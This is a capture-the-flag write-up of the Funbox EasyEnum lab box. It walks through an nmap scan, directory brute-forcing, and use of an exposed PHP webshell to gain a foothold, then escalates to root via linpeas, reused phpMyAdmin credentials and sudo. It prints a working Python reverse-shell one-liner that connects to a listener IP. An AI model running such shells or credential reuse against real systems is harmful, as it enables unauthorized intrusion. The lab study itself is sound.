 ```yaml
---
layout: default
title : muzec - FunboxEasyEnum Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/115975817-230fff00-a536-11eb-99fa-04db4cc12c16.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sun Apr 11 12:41:03 2021 as: nmap -sC -sV -oA nmap 192.168.209.132
Nmap scan report for 192.168.209.132
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9040/tcp filtered tor-trans
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 12:41:57 2021 -- 1 IP address (1 host up) scanned in 53.70 seconds
```

We got 2 open ports only so let hit the port 80 with some directory bursting using gobuster.

![image](https://user-images.githubusercontent.com/69868171/115975943-02947480-a537-11eb-922d-4c2c01a291b1.png)

Cool a directory mini.php let check it out.

![image](https://user-images.githubusercontent.com/69868171/115975966-48513d00-a537-11eb-8be4-b75e43ed434d.png)

Wow it a mini webshell and guess what we can upload a reverse shell to get a shell back to our terminal ok let do something cool.

![image](https://user-images.githubusercontent.com/69868171/115976006-9e25e500-a537-11eb-8917-19b53f01bcb9.png)


Ok let save in a php file and upload it on the mini webshell.

![image](https://user-images.githubusercontent.com/69868171/115976029-c44b8500-a537-11eb-80e8-b46dea6fae59.png)

Now let access it.

![image](https://user-images.githubusercontent.com/69868171/115976049-05439980-a538-11eb-9051-fe7f8dee2793.png)


Boom we have Remote code execution now let use `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` to get our shell.

Note:- edit the IP and port to your ncat listener.

![image](https://user-images.githubusercontent.com/69868171/115976110-a7fc1800-a538-11eb-83d7-dac92de83e96.png)


And we have shell.

![image](https://user-images.githubusercontent.com/69868171/115976127-cbbf5e00-a538-11eb-90f1-b7e1a07012f7.png)

Going to the home directory found nothing interesting so i get linpeas.sh to the target machine.

![image](https://user-images.githubusercontent.com/69868171/115976201-84859d00-a539-11eb-913f-9e94243ff615.png)

Found a config file for phpmyadmin with some credentials.

![image](https://user-images.githubusercontent.com/69868171/115976236-e5ad7080-a539-11eb-86fa-60c6fb19f90a.png)

I try going through the MYSQL databases but everything is empty so i try reusing the credentials for the users available on the target machine.

![image](https://user-images.githubusercontent.com/69868171/115976288-58b6e700-a53a-11eb-8b11-d84a26cd0fa0.png)

Boom we are in now let try checking `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/115976315-bb0fe780-a53a-11eb-8214-8cd97b468e81.png)

Cool we can run sudo all and we are root.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

